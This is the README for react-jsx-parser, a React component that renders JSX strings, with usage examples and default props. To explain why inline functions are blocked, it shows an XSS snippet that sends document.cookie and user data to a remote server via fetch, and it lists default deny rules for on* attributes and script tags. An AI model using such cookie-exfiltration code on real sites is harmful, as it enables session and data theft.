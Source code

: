 # react-jsx-parser [![CircleCI][circle-ci-badge]](https://circleci.com/gh/TroyAlford/react-jsx-parser) [![Version][npm-version]][npm-link] [![NPM Downloads][npm-downloads]][npm-link] [![License][npm-license]](https://github.com/TroyAlford/react-jsx-parser/blob/master/LICENSE)

[circle-ci-badge]: https://circleci.com/gh/TroyAlford/react-jsx-parser.svg?style=svg
[npm-version]: https://img.shields.io/npm/v/react-jsx-parser.svg
[npm-downloads]: https://img.shields.io/npm/dt/react-jsx-parser.svg
[npm-license]: https://img.shields.io/npm/l/react-jsx-parser.svg
[npm-link]: https://www.npmjs.com/package/react-jsx-parser

A React component which can parse JSX and output rendered React Components.

## Basic Usage - Injecting JSX as a String
```javascript
import React from 'react'
import JsxParser from 'react-jsx-parser'
import Library from 'some-library-of-components'

class InjectableComponent extends Component {
  static defaultProps = {
    eventHandler: () => {}
  }
  // ... inner workings of InjectableComponent
}

const MyComponent = () => (
  <JsxParser
    bindings={{
      foo: 'bar',
      myEventHandler: () => { /* ... do stuff ... */ },
    }}
    components={{ InjectableComponent, Library }}
    jsx={`
      <h1>Header</h1>
      <InjectableComponent eventHandler={myEventHandler} truthyProp />
      <Library.SomeComponent someProp={foo} calc={1 + 1} stringProp="foo" />
    `}
  />
)
```

Because `InjectableComponent` is passed into the `JsxParser.props.components` prop, it is treated as a known element
type, and created using `React.createElement(...)` when parsed out of the JSX. You can also pass in a whole collection
of components, as shown by the `Library` binding, and then access the individual items with `LibraryName.ComponentName`.

Finally, a note about property bindings. The `JsxParser` can handle several types of binding:
 - implicit `true` bindings, such as `<InjectableComponent truthyProp />` (equivalent to `truthyProp={true}`)
 - string-value binding, such as `stringProp="foo"`
 - expression-binding, such as `calc={1 + 1}`
 - named-value binding, such as `eventHandler={myEventHandler}` (note that this requires a match in `bindings`)

The component **_does not_** support inline function declarations, such as:
 - `onClick={function (event) { /* do stuff */ }}`, or
 - `onKeyPress={event => { /* do stuff */}}`

This is to prevent inadvertent XSS attack vectors. Since the primary use of this component is to allow JSX to be stored server-side, and then late-interpreted at the client-side, this restriction prevents a malicious user from stealing info by executing a situation like:
```javascript
<JsxParser
  bindings={{ userInfo: { private: 'data' } }}
  onClick={() => {
    fetch('/some/remote/server', {
      body: JSON.stringify({ cookies: document.cookie, userInfo })
    })
  }}
/>
```

## Advanced Usage - Injecting Dynamic JSX
```javascript
// Import desired set of components
import { ComponentA, ComponentB } from 'somePackage/Components'
import ComponentC from 'somePackage/ComponentC'
import ComponentD from 'somePackage/ComponentD'
...
// Load an HTML or XML fragment from a remote API
const dynamicHtml = loadRemoteData()
...
// Within your component's render method, bind these components and the fragment as props
<JsxParser
  bindings={bindings}
  components={{ ComponentA, ComponentB, ComponentC, ComponentD }}
  jsx={dynamicHtml}
/>
```

Any `ComponentA`, `ComponentB`, `ComponentC` or `ComponentD` tags in the dynamically loaded XML/HTML fragment will be rendered as React components. Any unrecognized tags will be handled by `React`.

_Note:_ Non-standard tags may throw errors and warnings, but will typically be rendered in a reasonable way.

## Advanced Usage - HTML & Self-Closing Tags
When rendering HTML, standards-adherent editors will render `img`, `hr`, `br`, and other
[void elements](https://www.w3.org/TR/2011/WD-html-markup-20110113/syntax.html#void-elements) with no trailing `/>`. While this is valid HTML, it is _not_ valid JSX. If you wish to opt-in to a more HTML-like parsing style, set the `autoCloseVoidElements` prop to `true`.

### Example:
```jsx
// <hr> has no closing tag, which is valid HTML, but not valid JSX
<JsxParser jsx="<hr><div className='foo'>Foo</div>" />
// Renders: null

// <hr></hr> is invalid HTML, but valid JSX
<JsxParser jsx="<hr></hr><div className='foo'>Foo</div>" />
// Renders: <hr><div class='foo'>Foo</div>

// This is valid HTML, and the `autoCloseVoidElements` prop allows it to render
<JsxParser autoCloseVoidElements jsx="<hr><div className='foo'>Foo</div>" />
// Renders: <hr><div class='foo'>Foo</div>

// This would work in a browser, but will no longer parse with `autoCloseVoidElements`
<JsxParser autoCloseVoidElements jsx="<hr></hr><div className='foo'>Foo</div>" />
// Renders: null
```

## PropTypes / Settings
```javascript
JsxParser.defaultProps = {
  allowUnknownElements: true, // by default, allow unrecognized elements
  // if false, unrecognized elements like <foo> are omitted and reported via onError

  autoCloseVoidElements: false, // by default, unclosed void elements will not parse. See examples

  bindings: {}, // by default, do not add any additional bindings

  blacklistedAttrs: [/^on.+/i], // default: removes `on*` attributes (onClick, onChange, etc.)
  // any attribute name which matches any of these RegExps will be omitted entirely

  blacklistedTags:  ['script'], // by default, removes all <script> tags

  className: '', // space-delimited classes to add to wrapper (ignored if renderInWrapper=false)

  components: {}, // an object map of component tag-names to their definitions - see above
  // components must extend React.Component, React.PureComponent, or be a Function

  componentsOnly: false, // non-component HTML tags are allowed by default, omitted if true

  disableFragments: false, // if true, React <Fragment />s will not be used.
  // Note: This introduces subtle errors with regard to white-space, and is provided only for
  // backward compatibility with React 15.x

  disableKeyGeneration: false, // if true, rendering will not automatically generate `key` props.
  // Note: This may result in the "Child elements should have a unique 'key' prop " React error.

  jsx: '', // the jsx string to be parsed & rendered

  onError: () => {}, // if specified, any rendering errors are reported via this method

  showWarnings: false, // if true showWarnings, rendering errors are output with console.warn

  renderError: undefined, // if specified, this function can be used to render errors as a fallback

  renderInWrapper: true, // if false, the HTML output will have no <div> wrapper

  renderUnrecognized: tagName => null, // unrecognized tags are rendered via this method
}
```

## Older Browser Support

If your application needs to support older browsers, like `IE11`, import from `react-jsx-parser/dist/es5/react-jsx-parser.min.js`,
which transpiles the `acorn-jsx` dependency down to ES5, and also adds additional polyfill support for code used in this package.

**Note**: <u>not</u> recommended for implementations which only support modern browsers, as the ES5 version is roughly 30% larger.
